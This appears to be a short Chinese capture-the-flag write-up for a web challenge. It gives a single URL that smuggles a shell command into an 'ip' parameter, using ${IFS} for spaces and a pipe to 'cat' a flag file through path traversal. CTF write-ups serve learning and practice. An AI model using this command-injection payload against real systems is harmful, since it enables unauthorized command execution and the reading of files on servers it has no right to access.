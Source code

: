 普通的绕过

用hackbar可以轻松获取flag

http://web1.0ops.sjtu.cn:40016/?ip=192.1.1.2${IFS}|${IFS}cat${IFS}../../../flag/e901a1c04ef6a6179219bd06ff8a944c